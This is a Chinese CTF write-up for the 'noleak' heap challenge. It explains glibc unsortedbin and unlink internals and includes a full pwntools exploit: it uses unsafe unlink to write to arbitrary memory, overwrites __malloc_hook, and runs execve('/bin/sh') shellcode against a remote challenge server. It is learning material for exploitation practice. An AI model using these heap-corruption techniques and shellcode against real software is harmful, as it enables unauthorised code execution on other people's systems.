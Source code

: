 ## noleak
能力不够这题没有完全看懂WP，之后有机会回头看下  
很多知识都还不懂，只能把目前找到的规律记下来，以后来看。  
这道题的bug特别多，又是可以很轻易地可以实现堆溢出，又是free指针后没有置空可以很容易的实现UAF，连保护也没开全，但我仍然做不到完成这题（太菜了），这道题主要考查的是unsortedbin attack，由于漏洞很多所以揭发多样，目前只介绍我看的一种。  
![](./pic/chc.png)  
首先介绍unsortedbins的存储结构，如图所示  
![](./pic/unsortedbinsstruct.jpg) 
同时unsortedbin是先进先出的结构，也就是说如果再申请一块0x110的空间会首先选择chunk0的位置。  
在该题中我发现unsortedbin的最后一个freechunk的bk会指向main_arena+88。貌似是只想topchunk用来为之后开辟空间用的。  
首先说下free过程  
![](./pic/chunkfree.jpg)  
接下来说下unlink的过程，如果在释放一个符合unsortedbin大小的chunk时发现他的前面或者后面紧挨着一个freechunk，那么就会发生合并操作，以bin在新被释放的chunk上面（bin地址更小）为例，会经理以下步骤：
1. 检验chunk size的最后一位是不是0（说明前一个是被释放的）
2. 根据presize找到前一个freechunk的起始位置  
3. 判断freechunk是否满足 p->bk->fd=p 和 p->fd->bk=p   

unlink函数的代码如下    

```
>void unlink(malloc_chunk *P, malloc_chunk *BK, malloc_chunk *FD)
{
	FD = P->fd;
	BK = P->bk;
	if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
	       malloc_printerr(check_action,"corrupted double-linked list",P);
	else
	       {
		       FD->bk = BK;
		       BK->fd = FD;
	       }
}
```

可以看到他会把p->fd->bk赋值成p->bk，同时把p->bk->fd赋值成p->fd，也就是说利用好unlink可以做到任意地址写  
我们希望在buf区域留下buf或者比buf略小的地址，这样就能实现直接编辑buf中各chunk地址，就可以更方便的完成在任意地址写下东西。  
做到这一步的思路如下  
1. 连续构造chunk0和chunk1，通过任意编辑内容并堆溢出可以在chunk0中布置好一个假的freechunk，并改变chunk1的头部让它以为它上面有一个freechunk  
2. 由于假freechunk的起始地址正好存储在buf[0]，因此只需要让假freechunk的fd为buf-0x18和buf-0x10就可以满足 p->bk->fd=p 和 p->fd->bk=p  
3. free chunk1，便可以使buf[0]处的值改为buf-0x18  

![](./pic/putbuf.jpg)  
代码如下  
```create(0x100,b'a'*0x100)
create(0x100,b'b'*0x100)
payload=p64(0)+p64(0x101)
payload+=p64(buf_addr-0x18)+p64(buf_addr-0x10)
payload+=b'a'*0xe0+p64(0x100)+p64(0x110)
change(0,0x110,payload)
delete(1)
```
接下来连续开辟两个chunk并释放其中一个，这时被释放的freechunk的fd与bk都是main_arena+88，将他的fd和bk依次改为0和buf+0x20（在上一步已经把buf+20伪造成了一个0x20大小的freechunk），之后再重新构造一个0x100的chunk把freechunk填充，便能发现buf+0x20的fd变成了main_arena+88  
上面这段我还是没搞清楚怎么回事稀里糊涂的就把main_arena+88放进buf了，之后因为__malloc_hook的地址在main_arena+88上方，只需要把最后一个字节改成0x10就行了  
下面的步骤就是  
1. 在bss里放shellcode  
2. 把buf里的main_arena+88变成__malloc_hook
3. 在__malloc_hook写下bss地址，这样当执行分配内存时就会调用shellcode  
完整exp  
```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
if len(sys.argv) == 1 or sys.argv[1] == 'l':
    p = process('./timu')
    elf = ELF('./timu')
else:
    p = remote('61.147.171.105', 57981)
    elf = ELF('./timu')
    pause()
context(arch = "amd64", os = 'linux')
bss_stage=elf.bss()+0x70
buf_addr=0x000000000601040
bss_addr=elf.bss()
def create(size,data):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Size: ')
    p.sendline(str(size).encode())
    p.recvuntil(b'Data: ')
    p.sendline(data)
def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
def change(index,size,data):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Size: ')
    p.sendline(str(size).encode())
    p.recvuntil(b'Data: ')
    p.sendline(data)

create(0x100,b'a'*0x100)
create(0x100,b'b'*0x100)
payload=p64(0)+p64(0x101)
payload+=p64(buf_addr-0x18)+p64(buf_addr-0x10)
payload+=b'a'*0xe0+p64(0x100)+p64(0x110)
change(0,len(payload),payload)
# pause()
delete(1)
pause()
payload=p64(0)*3+p64(bss_addr)+p64(buf_addr)+p64(0)*3+p64(0x20)
change(0,len(payload),payload)
# pause()
create(0x100,b'c'*0x100)
create(0x100,b'd'*0x100)
print('create two')
# pause()
delete(2)
# pause()
payload=p64(0)+p64(buf_addr+0x20)
change(2,len(payload),payload)

create(0x100,b'e'*0x100)
print('create e')
# pause()
payload = p64(bss_addr) + p64(buf_addr)
payload += p64(0) * 4
payload += b"\x10"
change(1, len(payload), payload)
# pause()
# shellcode = asm(shellcraft.sh())
shellcode=b'/bin/sh\x00'
shellcode+=asm('xor rax,rax;add rax,0x3b;xor rsi,rsi;xor rdx,rdx;xor rdi,rdi;add rdi,0x000000000601020;syscall')
change(0, len(shellcode), shellcode)
print("shell")
# pause()
change(6, 0x8, p64(bss_addr+8))
pause()
# create(0x10, b"x"*0x10)
# pause()
p.interactive()
```
在取得交互后新建chunk时便getshell，仍然是远程打得通本地打不通，不知道为啥。